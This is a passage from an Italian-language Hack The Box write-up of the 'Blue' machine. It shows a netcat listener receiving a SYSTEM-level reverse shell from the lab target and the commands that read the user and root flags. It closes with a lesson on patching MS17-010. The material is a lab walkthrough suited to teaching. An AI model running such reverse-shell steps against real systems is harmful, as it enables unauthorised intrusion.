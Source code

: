Otteniamo cosi un shell con i massimi privilegi 

```
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system


C:\Users\haris\Desktop>type user.txt
type user.txt
2333342657b9923bb22b8357c1882967

C:\Users\Administrator\Desktop>type root.txt
type root.txt
3ae93528ed62070e46f568dca7fa787d

```

# LESSON LEARNED

Bisogna aggiornare sempre i sistemi, specialmente quando vengono rilasciati aggiornamenti per vulnerabilità critiche! Se l'amministratore di sistema avesse installato l'aggiornamento di sicurezza MS17–010, avrei dovuto trovare un altro modo per sfruttare questa macchina.
